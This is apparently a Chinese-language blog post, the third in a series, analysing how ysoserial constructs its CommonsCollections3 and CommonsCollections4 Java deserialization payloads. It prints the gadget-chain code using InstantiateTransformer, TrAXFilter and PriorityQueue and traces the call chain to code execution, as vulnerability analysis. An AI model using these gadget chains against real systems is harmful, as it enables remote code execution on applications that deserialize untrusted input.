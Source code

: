 ```yaml
---
title: Ysoserial工具解读（三）
date: 2019-10-31 11:21:05
tags: [Java, RCE,反序列化]
categories: 漏洞分析
---
```


前面两篇已经介绍了不少基础知识，接下来可以加快分析的速度了。今天分析CommonsCollections3.java和CommonsCollections4.java中用到的类，主要是`InstantiateTransformer`类和`TrAXFilter`类。

<!-- more -->

## CommonsCollections3的Payload构造方式

```java
/*	先贴代码为敬：
*/

import javax.xml.transform.Templates;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import org.apache.commons.collections.functors.InstantiateTransformer;

public Object getObject(final String command) throws Exception {
    Object templatesImpl = Gadgets.createTemplatesImpl(command);

    final Transformer[] transformers = new Transformer[] {
        new ConstantTransformer(TrAXFilter.class),
        // 这里不再是InvokeTransformer类，而是InstantiateTransformer类
        new InstantiateTransformer(
            new Class[] { Templates.class },
            new Object[] { templatesImpl } )};

    // 这部分代码和CommonsCollection1完全一样
    // inert chain for setup
    final Transformer transformerChain = new ChainedTransformer(
        new Transformer[]{ new ConstantTransformer(1) });
    final Map innerMap = new HashMap();
    final Map lazyMap = LazyMap.decorate(innerMap, transformerChain);
    final Map mapProxy = Gadgets.createMemoitizedProxy(lazyMap, Map.class);
    final InvocationHandler handler = Gadgets.createMemoizedInvocationHandler(mapProxy);
    Reflections.setFieldValue(transformerChain, "iTransformers", transformers); // arm with actual transformer chain

    return handler;
}
```

既然上面的代码段内主要用到`InstantiateTransformer`类和`TrAXFilter`类，那就看看它们的具体内容。

### `InstantiateTransformer`类

这个调用链前半部分和CommonsCollections1的一样哈，也就是`AnnotationInvocationHandler.readObject() -> Map$Proxy.entrySet() ->					AnnotationInvocationHandler.invoke() ->	LazyMap.get() -> ChainedTransformer.transform() `

我们之前分析过`ConstantTransformer`类的`transform()`方法：

```java
/*	ConstantTransformer.java
*/

public ConstantTransformer(Object constantToReturn) {
    super();
    iConstant = constantToReturn;
}

// 即不管输入参数是什么，都返回初始化时传入的iConstant字段值
public Object transform(Object input) {
    return iConstant;
}
```

在本例中，`ConstantTransformer.transform()`的返回对象就是个`TrAXFilter`类。它将被传入`InstantiateTransformer.transform()`中，贴一下有关代码：

```java
/*	InstantiateTransformer.java
*/
public class InstantiateTransformer implements Transformer, Serializable {

    /** 构造函数的参数类型数组 */
    private final Class[] iParamTypes;
    /** 构造函数的参数值数组 */
    private final Object[] iArgs;
    
    public InstantiateTransformer(Class[] paramTypes, Object[] args) {
        super();
        // 根据payload构造代码这里的参数类型是javax.xml.transform.Templates类
        iParamTypes = paramTypes;
        // 根据payload构造代码这里传入的是恶意的templatesImpl对象
        iArgs = args;
    }
    
    public Object transform(Object input) {
        try {
            if (input instanceof Class == false) {
                throw new FunctorException(
                    "InstantiateTransformer: Input object was not an instanceof Class, it was a "
                        + (input == null ? "null object" : input.getClass().getName()));
            }
            // 获取输入类的构造函数,也就是TrAXFilter的构造函数
            Constructor con = ((Class) input).getConstructor(iParamTypes);
            // 创建一个输入类的实例,即将templatesImpl对象作为入参传给TrAXFilter的构造函数
            return con.newInstance(iArgs);

        } 
        * * * *
    }
```
于是，恶意的`templatesImpl`对象就被传入了`TrAXFilter`类的构造函数：

### `TrAXFilter`类

```java
/*	TrAXFilter.java
*/
public TrAXFilter(Templates templates)  throws
    TransformerConfigurationException
{
    _templates = templates;
    _transformer = (TransformerImpl) templates.newTransformer();
    * * * *
}
```

接下来的故事就跟CommonsCollections2里分析的一模一样了，因此CommonsCollections3可以看作是前两个payload构造方法的结合产物。

## CommonsCollections4的Payload构造方式

```java
public Queue<Object> getObject(final String command) throws Exception {
    Object templates = Gadgets.createTemplatesImpl(command);

    ConstantTransformer constant = new ConstantTransformer(String.class);

    Class[] paramTypes = new Class[] { String.class };
    Object[] args = new Object[] { "foo" };
    InstantiateTransformer instantiate = new InstantiateTransformer(
        paramTypes, args);

    // grab defensively copied arrays
    paramTypes = (Class[]) Reflections.getFieldValue(instantiate, "iParamTypes");
    args = (Object[]) Reflections.getFieldValue(instantiate, "iArgs");

    ChainedTransformer chain = new ChainedTransformer(new Transformer[] { constant, instantiate });

    // create queue with numbers
    PriorityQueue<Object> queue = new PriorityQueue<Object>(2, new TransformingComparator(chain));
    queue.add(1);
    queue.add(1);

    // 利用反射机制方式实现ConstantTransformer的初始化
    // 效果同 ConstantTransformerconstant= new ConstantTransformer(TrAXFilter.class)
    Reflections.setFieldValue(constant, "iConstant", TrAXFilter.class);
    // 利用反射机制方式实现InstantiateTransformer的初始化
    // 效果同 InstantiateTransformer instantiate= new InstantiateTransformer(new Class[] { Templates.class },new Object[] { templatesImpl } )    
    paramTypes[0] = Templates.class;
    args[0] = templates;

    return queue;
}
```

这个构造方法可以看做是CommonsCollections2的变种，因此它们前半段的调用链也是相同的：`PriorityQueue.readObject() -> heapify() -> siftDown() -> siftDownUsingComparator() -> TransformingComparator.compare() -> ChainedTransformer.transform() `；该构造方式后半部分用的是和CommonsCollections3一样的类，不过利用反射机制实现初始化，因此调用链也一样，这里不再详述。
